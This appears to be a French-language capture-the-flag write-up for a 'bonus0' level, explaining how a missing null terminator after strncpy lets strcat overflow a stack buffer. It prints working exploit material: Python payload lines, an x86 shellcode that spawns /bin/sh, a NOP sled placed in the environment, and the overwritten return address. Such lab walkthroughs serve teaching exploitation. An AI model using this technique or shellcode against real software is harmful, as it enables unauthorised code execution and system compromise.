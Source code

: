 ## Bonus0

Au premier lancement, le binaire attend un premier argument sur l'entrée
standart, puis un deuxieme.

On observe un appel a `pp()`, qui fait deux appel a `p()`. C'est cette fonction
qui va nous intéresser. Elle affiche le caractère ` - `, lit sur l'entrée
standard, et stocke le resultat dans un buffer de `4096` bytes. Ensuite l'appel
a `strchr()` va checher le caractère `10 (\n)` dans le buffer, et le remplace
par `0 (\0)`, enfin, l'appel a `strncpy()` copie les 20 premiers bytes du buffer
dans la destination passé en argument a la fonction `p()`. 
Apres ces deux copies dans deux buffer distincs, un premier buffer est copie dans le buffer passé en parametre a pp avec un `strcpy()`. Un espace est inserré a la fin du buffer, puis la second string copié est ajoutée dans le buffer avec un `strcat()`. 

La fonction strncpy de p nous interesse particulierement, cat lorsque dst est superieur ou egal la len, la string src n'est pas terminée par un `\0`.

L'astuce ici consiste a ecrire dans le premier buffer une chaine de caracteres termine par un '\0', mais dans le second une chaine non terminée. Les deux buffers etant cote a cote, le strcpy dans pp copiera bien 20 caracteres, mais le strcat copiera 40 caracteres(les deux buffers a la suite). Le buffer originel faisant 54 caracteres, nous avons un overflow que nous pouvons exploiter a loisir.


#### Amusons nous a présent avec la mémoire

![image](https://user-images.githubusercontent.com/29956389/90001786-2a39fa00-dc92-11ea-94b4-af8989aa97d5.png)

On segfault sur `0x45444444` soit `DDDE`, l'offset est de `9` bytes. Le but est donc d'y insérer l'adresse
de notre shellcode.

On utilisera un fichier pour insérer notre input, cela sera plus facile que
d'insérer des caractères non-imprimables a la main dans GDB.

`$ python -c 'print 'i'*64 + '\x0a' + 'ABCDEFGHI' + '\xef\xbe\xad\xde' + '\x0a' > /tmp/xploit`

![image](https://user-images.githubusercontent.com/29956389/90002664-3ecac200-dc93-11ea-8bb9-36ca70d1177b.png)

On obtient un `SIGSEGV` sur une adresse différente, et dans la fonction `p()`,
bizarre. Observons ce qui se passe avec un breakpoint avant l'appel a `strchr()`:

![image](https://user-images.githubusercontent.com/29956389/90003198-07104a00-dc94-11ea-818b-b6eecc69e87d.png)

On observe que la premier ligne `iiii...` est évalué une deuxième fois par
`strchr()`, alors que le `\n` a déja été remplacé par une `\0`, ce qui explique
le `SIGSEGV` a l'instruction d'apres:

![image](https://user-images.githubusercontent.com/29956389/90003648-a8979b80-dc94-11ea-877c-81d9e1f0801f.png)

Cela est du au fonctionnement de `read()` (On se souvient du GetNextLine), tout
le fichier est lu jusqu'au `\0` ou `4096` bytes. Notre ligne avec notre adresse
a executer se retrouve au mauvais endroit dans la stack! Il faut donc remplacer
`print 'i'*64 + '\x0a'` dans notre commande par `print 'i'*4095 + '\x0a'`.

On réesaye avec la commande corrigé:

`$ python -c 'print "i"*4095 + "\x0a" + "ABCDEFGHI" + "\xef\xbe\xad\xde" + "\x0a"' > /tmp/xploit`

![image](https://user-images.githubusercontent.com/29956389/90004167-7fc3d600-dc95-11ea-8834-ed5521ee6067.png)

Toujours pas! On regarde donc a nouveau l'entrée qu'on avait mit en premier pour faire segfault notre binaire au début. La seule différence est la longueur de notre deuxieme chaine de caractères. Essayons alors de rajouter quelques bytes a la fin, et prennons `20 bytes` comme référence (`strncpy(dest, &buffer, 20)`):

Soit:

`$ python -c 'print [4095 bytes] + "\n" + [9 bytes] + [4 bytes de notre adresse] + [20 - (9 + 4) = 7 bytes] + "\x0a"' > /tmp/xploit`

Ce qui donne:

`python -c 'print "i"*4095 + "\x0a" + "ABCDEFGHI" + "\xef\xbe\xad\xde" + "1234567" + "\x0a"' > /tmp/xploit`

![image](https://user-images.githubusercontent.com/29956389/90004691-5eafb500-dc96-11ea-8e7d-504a6c3fa35b.png)

Cela marche enfin !

On a maintenant le choix d'inserer notre nopsled + shellcode soit dans le
buffer, soit dans l'environement, nous choissisons la deuxieme, pour aucune
raison particulière.

`$ echo -ne
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' > /tmp/shellcode.bin`

`$ export SLEDCODE=$(python -c 'print "\x90"*512')$(cat /tmp/shellcode.bin)`

On localise l'adresse du sled:

`(gdb)> x/4s *((char**)environ + 8)`

`> de 0xbffff6c2 a 0xbffff8f4`

`0xbffff6c2 + 256 (Taille sled / 2) = 0xbffff7c2`

Et on lance:

`python -c 'print "i"*4095 + "\x0a" + "ABCDEFGHI" + "\xc2\xf7\xff\xbf" +
"1234567" + "\x0a"' > /tmp/xploit`

![image](https://user-images.githubusercontent.com/29956389/90006073-830c9100-dc98-11ea-923a-b5efe5915dc7.png)

On essaye donc en dehors de GDB:

![image](https://user-images.githubusercontent.com/29956389/90006208-bea75b00-dc98-11ea-9826-ed0bcc70237b.png)

